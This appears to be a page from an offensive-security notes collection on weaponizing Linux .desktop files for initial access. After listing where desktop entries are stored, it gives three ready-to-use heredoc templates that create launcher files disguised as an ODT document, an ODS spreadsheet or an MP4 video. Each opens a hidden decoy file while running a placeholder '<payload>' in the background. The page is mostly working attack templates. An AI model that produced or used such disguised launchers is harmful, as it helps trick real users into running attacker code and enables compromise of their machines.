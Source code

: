```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - initial-access
  - weaponization
  - client-side-attacks
  - linux
---
```

# Desktop Files

## Common Files Locations

### Directory Entries

```
/usr/share/desktop-directories/
~/.local/share/desktop-directories/
```

### Desktop Entries

```
/usr/share/applications/
~/.local/share/applications/
```

## Libreoffice Files

```
/usr/share/applications/libreoffice-*.desktop
```

### Document Desktop File

```
$ cat > malicious_document.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=document.odt
Exec=libreoffice --writer $(pwd)/.real_document.odt; <payload> &
Terminal=false
Type=Application
Icon=libreoffice-writer
EOF
```

### Spreadsheet Desktop File

```
$ cat > malicious_document.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=document.ods
Exec=libreoffice --calc $(pwd)/.real_document.ods; <payload> &
Terminal=false
Type=Application
Icon=libreoffice-calc
EOF
```

## Video Desktop File

```
$ cat > malicious_video.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=video.mp4
Exec=/usr/bin/xdg-open $(pwd)/.real_video.mp4; <payload> &
Terminal=false
Type=Application
Icon=video-x-generic
EOF
```